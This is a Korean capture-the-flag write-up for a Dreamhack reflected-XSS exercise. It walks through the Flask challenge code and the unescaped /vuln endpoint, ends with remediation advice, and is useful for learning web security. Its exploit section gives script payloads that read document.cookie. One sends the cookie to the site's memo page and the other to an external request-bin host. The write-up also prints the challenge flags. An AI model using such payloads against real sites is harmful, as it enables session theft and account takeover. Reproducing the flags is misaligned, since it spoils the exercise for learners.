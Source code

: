```yaml
---
title: Dreamhack Exercise XSS
date: 2022-02-15 16:17:52
tags: Dreamhack
categories: Dreamhack
---
```


## 문제 목표 및 기능 요약
XSS - 1 문제의 목표는 XSS 를 통해 임의 이용자의 쿠키를 탈취하는 것입니다

- / : 인덱스 페이지입니다
- /vuln : 이용자가 입력한 값을 출력합니다
- /memo : 이용자가 메모를 남길 수 있으며 작성한 메모를 출력합니다
- /flag : 전달된 URL 에 임의 이용자가 접속하게끔 합니다
해당 이용자의 쿠키에는 FLAG 가 존재합니다

## 웹 서비스 분석

### 엔드 포인트 : /vuln
Figure1 은 vuln 페이지를 구성하는 코드입니다
코드를 살펴보면 이용자가 전달한 xss 파라미터의 값을 출력합니다

```python
@app.route("/vuln")
def vuln():
    param = request.args.get("param", "") # 이용자가 입력한 vuln 인자를 가져옴
    return param # 이용자의 입력값을 화면 상에 표시
```

### 엔드 포인트 : /memo
Figure2 는 memo 페이지를 구성하는 코드입니다
코드를 살펴보면 이용자가 전달한 memo 파라미터 값을 render_template 함수를 통해 기록하고 출력합니다

```python
@app.route('/memo') # memo 페이지 라우팅
def memo(): # memo 함수 선언
    global memo_text # 메모를 전역변수로 참조
    text = request.args.get('memo', '') # 사용가 전송한 memo 입력값을 가져옴
    memo_text += text + '\n' # 사용가 전송한 memo 입력값을 memo_text에 추가
    return render_template('memo.html', memo=memo_text) # 사이트에 기록된 memo_text를 화면에 출력
```

### 엔드 포인트 : /flag
Figure3 은 flag 페이지를 구성하는 코드입니다
코드를 살펴보면 메소드에 따른 요청마다 다른 기능을 수행하는 것을 알 수 있습니다

- GET : 이용자에게 URL 을 입력받는 페이지를 제공합니다
- POST : params 파라미터에 값과 쿠키에 FLAG 를 포함해 check_xss 함수를 호출합니다 check_xss 는 read_url 함수를 호출해 vuln 엔드 포인트에 접속합니다

```python
def read_url(url, cookie={"name": "name", "value": "value"}):
    cookie.update({"domain": "127.0.0.1"})
    try:
        options = webdriver.ChromeOptions()
        for _ in [
            "headless",
            "window-size=1920x1080",
            "disable-gpu",
            "no-sandbox",
            "disable-dev-shm-usage",
        ]:
            options.add_argument(_)
        driver = webdriver.Chrome("/chromedriver", options=options)
        driver.implicitly_wait(3)
        driver.set_page_load_timeout(3)
        driver.get("http://127.0.0.1:8000/")
        driver.add_cookie(cookie)
        driver.get(url)
    except Exception as e:
        driver.quit()
        # return str(e)
        return False
    driver.quit()
    return True
    
def check_xss(param, cookie={"name": "name", "value": "value"}):
    url = f"http://127.0.0.1:8000/vuln?param={urllib.parse.quote(param)}"
    return read_url(url, cookie)
    
@app.route("/flag", methods=["GET", "POST"])
def flag():
    if request.method == "GET":
        return render_template("flag.html")
    elif request.method == "POST":
        param = request.form.get("param")
        if not check_xss(param, {"name": "flag", "value": FLAG.strip()}):
            return '<script>alert("wrong??");history.go(-1);</script>'
        return '<script>alert("good");history.go(-1);</script>'
```

## 취약점 분석
vuln 과 memo 엔드 포인트는 이용자의 입력값을 페이지에 출력합니다
memo 는 reder_template 함수를 사용해 memo.html 을 출력합니다

render_template 함수는 전달된 템플릿 변수를 기록할 때 HTML 엔티티코드로 변환해 저장하기 때문에 XSS 가 발생하지 않습니다

그러나 vuln 은 이용자가 입력한 값을 페이지에 그대로 출력하기 때문에 XSS 가 발생합니다

```python
@app.route("/vuln")
def vuln():
    param = request.args.get("param", "") # 이용자가 입력한 vuln 인자를 가져옴
    return param # 이용자의 입력값을 화면 상에 표시
```

## 익스플로잇
문제를 해결하기 위해서는 /vuln 엔드 포인트에서 발생하는 취약점을 통해 임의 이용자의 쿠키를 탈취해야 합니다

탈취한 쿠키를 전달받기 위해서는 외부에서 접근 가능한 서버를 사용하거나 문제에서 제공하는 memo 엔드 포인트를 사용할 수 있습니다

- location.href : 전체 URL 을 반환하거나 URL 을 업데이트할 수 있는 속성값입니다
- document.cookie : 해당 페이지에서 사용하는 쿠키를 읽고 쓰는 속성값입니다

## 쿠키 탈취
임의 사용자의 쿠키를 탈취하기 위한 방법은 다음과 같이 두가지가 있습니다

### memo 페이지 사용
flag 엔드 포인트에서 다음과 같은 익스플로잇 코드를 입력하면 memo 엔드 포인트에서 임의 이용자의 쿠키 정보를 확인할 수 있습니다

```javascript
<script>location.href = "/memo?memo=" + document.cookie;</script>
```

### 웹 서버 사용
외부에서 접근 가능한 서버를 통해 탈취한 쿠키를 확인할 수 있습니다

외부에서 접근 가능한 서버가 없다면 아래 첨부한 드림핵에서 제공하는 서비스를 사용할 수 있습니다

해당 서비스에서 제공하는 Request Bin 기능은 이용자의 접속 기록을 저장하기 때문에 해당 정보를 확인할 수 있습니다

Request Bin 버튼을 클릭하면 랜덤한 URL 이 생성되며 해당 URL 에 접속한 기록을 저장합니다

flag 기능에서 다음과 같은 익스플로잇 코드를 입력하면 Figure4 와 같이 접속 기록에 포함된 FLAG 를 확인할 수 있습니다

```javascript
<script>location.href = "http://RANDOMHOST.request.dreamhack.games/?memo=" + document.cookie;</script>
```

이러한 문제점은 악성 태그를 필터링하는 HTML Sanitization 을 사용하거나 엔티티코드로 치환하는 방법을 통해 해결할 수 있습니다

## XSS - 1
> DH{2c01577e9542ec24d68ba0ffb846508e}

## XSS - 2
> DH{3c01577e9542ec24d68ba0ffb846508f}

* * *

## Reference
Reference : https://dreamhack.io